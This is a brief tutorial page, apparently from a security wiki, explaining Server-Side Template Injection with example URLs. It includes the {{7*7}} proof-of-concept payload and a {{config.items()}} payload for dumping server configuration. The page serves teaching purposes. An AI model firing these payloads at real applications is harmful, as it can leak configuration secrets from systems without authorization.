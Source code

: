 # Server-Side Template Injection

Also known as SSTI, occurs when in an application that uses template engines, the user input is improperly handled or validated, allowing the execution of arbitrary code or manipulation of the template syntax.

We can find a typical example of this vulnerability as follows:

* We have an app that uses a template engine to display some user's data

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
http://$url/?data=$value
```
{% endcode %}

***

* We can submit arbitrary template syntax so that the engine interprets it

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?data={{7*7}}
```
{% endcode %}

{% hint style="info" %}
_\{{7\*7\}}_ is a standard expression that is used as a proof of concept for template injection
{% endhint %}

* This could lead to retrieving sensitive data from the server

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?data={{config.items()}}
```
{% endcode %}
